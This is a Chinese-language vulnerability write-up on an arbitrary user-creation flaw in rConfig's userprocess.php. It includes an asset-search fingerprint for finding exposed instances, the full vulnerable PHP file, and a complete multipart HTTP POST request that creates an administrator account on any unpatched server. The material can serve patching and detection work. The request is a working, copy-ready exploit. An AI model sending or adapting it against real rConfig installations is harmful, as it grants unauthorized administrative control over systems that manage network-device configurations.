

# rConfig userprocess.php 任意用户创建漏洞

## 漏洞描述

rConfig userprocess.php 存在任意用户创建漏洞，发送特定的请求包攻击者可以创建管理员账户登录后台

## 漏洞影响

<a-checkbox checked>rConfig</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="rConfig"</a-checkbox></br>

## 漏洞复现

出现漏洞的文件为 userproce.php

```php
<?php

/**
 * Process.php
 * 
 * The Process class is meant to simplify the task of processing
 * user submitted forms, redirecting the user to the correct
 * pages if errors are found, or if form is successful, either
 * way. Also handles the logout procedure.
 *
 * Written by: Jpmaster77 a.k.a. The Grandmaster of C++ (GMC)
 * Last Updated: August 19, 2004
 */
include("/home/rconfig/classes/usersession.class.php");

class Process {
    /* Class constructor */

    function Process() {
        global $session;
        /* User submitted login form */
        if (isset($_POST['sublogin'])) {
            $this->procLogin();
        }
        /* Admin submitted user add form */ else if (isset($_POST['add']) && isset($_POST['editid']) && empty($_POST['editid'])) {
            $this->procRegister();
        }
        /* Admin submitted user edit form */ else if (isset($_POST['add']) && isset($_POST['editid']) && !empty($_POST['editid'])) {
            $this->procUpdateAccount();
        }
        /* User submitted forgot password form */ else if (isset($_POST['subforgot'])) {
            $this->procForgotPass();
        }
        /* User submitted edit account form */ else if (isset($_POST['subedit'])) {
            $this->procEditAccount();
        }
        /**
         * The only other reason user should be directed here
         * is if he wants to logout, which means user is
         * logged in currently.
         */ else if ($session->logged_in) {
            $this->procLogout();
        }
        /**
         * Should not get here, which means user is viewing this page
         * by mistake and therefore is redirected.
         */ else {
            header("Location: /login.php");
        }
    }

    /**
     * procLogin - Processes the user submitted login form, if errors
     * are found, the user is redirected to correct the information,
     * if not, the user is effectively logged in to the system.
     */
    function procLogin() {
        global $session, $form;
        /* Login attempt */
        $retval = $session->login($_POST['user'], $_POST['pass'], isset($_POST['remember']));
        /* Login successful */
        if ($retval) {
            header("Location: " . $session->referrer);
        }
        /* Login failed */ else {
            $_SESSION['value_array'] = $_POST;
            $_SESSION['error_array'] = $form->getErrorArray();
            header("Location: " . $session->referrer);
        }
    }

    /**
     * procLogout - Simply attempts to log the user out of the system
     * given that there is no logout form to process.
     */
    function procLogout() {
        global $session;
        $retval = $session->logout();
        header("Location: /login.php");
    }

    /**
     * procRegister - Processes the user submitted registration form,
     * if errors are found, the user is redirected to correct the
     * information, if not, the user is effectively registered with
     * the system and an email is (optionally) sent to the newly
     * created user.
     */
    function procRegister() {
        global $session, $form;
        /* Convert username to all lowercase (by option) */
        if (ALL_LOWERCASE) {
            $_POST['username'] = strtolower($_POST['username']);
        }
        /* Registration attempt */
        $retval = $session->register($_POST['username'], $_POST['password'], $_POST['passconf'], $_POST['email'], $_POST['ulevelid']);

        /* Registration Successful */
        if ($retval == 0) {
            $_SESSION['reguname'] = $_POST['username'];
            $_SESSION['regsuccess'] = true;
            $errors['Success'] = "User " . $_POST['username'] . " successfully added to Database";
            $_SESSION['errors'] = $errors;
            header("Location: " . $session->referrer);
        }
        /* Error found with form */ else if ($retval == 1) {
            $_SESSION['value_array'] = $_POST;
            $_SESSION['errors'] = $form->getErrorArray();
            header("Location: " . $session->referrer . "?error");
        }
        /* Registration attempt failed */ else if ($retval == 2) {
            $_SESSION['reguname'] = $_POST['username'];
            $_SESSION['regsuccess'] = false;
            $errors['Fail'] = "ERROR: User " . $_POST['username'] . " could not be added to Database";
            $_SESSION['errors'] = $errors;
            header("Location: " . $session->referrer);
        }
    }

    /**
     * procForgotPass - Validates the given username then if
     * everything is fine, a new password is generated and
     * emailed to the address the user gave on sign up.
     */
    function procForgotPass() {
        global $database, $session, $mailer, $form;
        /* Username error checking */
        $subuser = $_POST['user'];
        $field = "user";  //Use field name for username
        if (!$subuser || strlen($subuser = trim($subuser)) == 0) {
            $form->setError($field, "Username not entered<br>");
            $_SESSION['value_array'] = $_POST;
            $_SESSION['errors'] = $form->getErrorArray();
            header("Location: " . $session->referrer . "?error");
        } else {
            /* Make sure username is in database */
            $subuser = stripslashes($subuser);
            if (strlen($subuser) < 5 || strlen($subuser) > 30 ||
                    !preg_match("/^([0-9a-z])+$/", $subuser) ||
                    (!$database->usernameTaken($subuser))) {
                $form->setError($field, "Unknown Username");
                $_SESSION['value_array'] = $_POST;
                $_SESSION['errors'] = $form->getErrorArray();
                header("Location: " . $session->referrer . "?error");
            }
        }
        /* Errors exist, have user correct them */
        if ($form->num_errors > 0) {
            $_SESSION['value_array'] = $_POST;
            $_SESSION['error_array'] = $form->getErrorArray();
        } else {
            /* Generate new password */
            $newpass = $session->generateRandStr(8);
            /* Get email of user */
            $usrinf = $database->getUserInfo($subuser);
            $email = $usrinf['email'];
            /* Attempt to send the email with new password */
            if ($mailer->sendNewPass($subuser, $email, $newpass)) {
                /* Email sent, update database */
                $database->updateUserField($subuser, "password", md5($newpass));
                echo "<script>"
                . "alert('Your new password has been generated. The password was emailed to $email');"
                . "window.close();"
                . "</script>";
            }/* Email failure, do not change password */ 
            else {
                $_SESSION['forgotpass'] = false;
            }
        }
    }

    /**
     * procEditAccount - Attempts to edit the user's account
     * information, including the password, which must be verified
     * before a change is made.
     */
    function procEditAccount() {
        global $session, $form;
        /* Account edit attempt */
        $retval = $session->editAccount($_POST['editid'], $_POST['username'], $_POST['curpass'], $_POST['newpass'], $_POST['passconf'], $_POST['email'], $_POST['ulevelid']);

        /* Account edit successful */
        if ($retval == 0) {
            $_SESSION['useredit'] = $_POST['username'];
            $_SESSION['useredit'] = true;
            $errors['Success'] = "User " . $_POST['username'] . " successfully edited";
            $_SESSION['errors'] = $errors;
            header("Location: " . $session->referrer);
        }
        /* Error found with form */ else if ($retval == 1) {
            $_SESSION['value_array'] = $_POST;
            $_SESSION['errors'] = $form->getErrorArray();
            header("Location: " . $session->referrer . "?error");
        }
        /* Registration attempt failed */ else if ($retval == 2) {
            $_SESSION['useredit'] = $_POST['username'];
            $_SESSION['regsuccess'] = false;
            $errors['Fail'] = "ERROR: User " . $_POST['username'] . " could not be edited";
            $_SESSION['errors'] = $errors;
            header("Location: " . $session->referrer);
        }
    }

    /**
     * procEditAccount - Attempts to edit the user's account
     * information, including the password, which must be verified
     * before a change is made.
     */
    function procUpdateAccount() {
        // http or https check for url Protocol
        $protocol = 'http';
        if (isset($_SERVER['HTTPS'])) {
            if (strtoupper($_SERVER['HTTPS']) == 'ON') {
                $protocol = 'https';
            }
        }

        global $session, $form;
        /* Account edit attempt */
        $retval = $session->updateAccount($_POST['editid'], $_POST['username'], $_POST['password'], $_POST['passconf'], $_POST['email'], $_POST['ulevelid']);

        /* Account edit successful */
        if ($retval == 0) {
            $_SESSION['useredit'] = $_POST['username'];
            $_SESSION['useredit'] = true;
            $errors['Success'] = "User " . $_POST['username'] . " successfully edited";
            $_SESSION['errors'] = $errors;
            header("Location: " . $protocol . "://" . $_SERVER['HTTP_HOST'] . "/" . "useradmin.php");
        }
        /* Error found with form */ else if ($retval == 1) {
            $_SESSION['value_array'] = $_POST;
            $_SESSION['errors'] = $form->getErrorArray();
            header("Location: " . $protocol . "://" . $_SERVER['HTTP_HOST'] . "/" . "useradmin.php?error");
        }
        /* Registration attempt failed */ else if ($retval == 2) {
            $_SESSION['useredit'] = $_POST['username'];
            $_SESSION['regsuccess'] = false;
            $errors['Fail'] = "ERROR: User " . $_POST['username'] . " could not be edited";
            $_SESSION['errors'] = $errors;
            header("Location: " . $protocol . "://" . $_SERVER['HTTP_HOST'] . "/" . "useradmin.php");
        }
    }

}

/* Initialize process */
$process = new Process;
```


出现漏洞的原因是对权限设定错误，任何人都可以通过访问这个文件创建管理员用户


发送如下请求包创建管理员用户 testtest，密码为 testtest[@123 ]() 


```plain
POST /lib/crud/userprocess.php HTTP/1.1
Host: 
User-Agent: python-requests/2.25.1
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Content-Type: multipart/form-data; boundary=b1467349fcce4aa0ae8d44439f4e06bc
Upgrade-Insecure-Requests: 1
Cookie: PHPSESSID=test
Content-Length: 697

--b1467349fcce4aa0ae8d44439f4e06bc
Content-Disposition: form-data; name="username"

testtest
--b1467349fcce4aa0ae8d44439f4e06bc
Content-Disposition: form-data; name="password"

testtest@123
--b1467349fcce4aa0ae8d44439f4e06bc
Content-Disposition: form-data; name="passconf"

testtest@123
--b1467349fcce4aa0ae8d44439f4e06bc
Content-Disposition: form-data; name="email"

testtest@test.com
--b1467349fcce4aa0ae8d44439f4e06bc
Content-Disposition: form-data; name="ulevelid"

9
--b1467349fcce4aa0ae8d44439f4e06bc
Content-Disposition: form-data; name="add"

add
--b1467349fcce4aa0ae8d44439f4e06bc
Content-Disposition: form-data; name="editid"


--b1467349fcce4aa0ae8d44439f4e06bc--
```





成功创建用户 testtest，以管理员身份登录后台


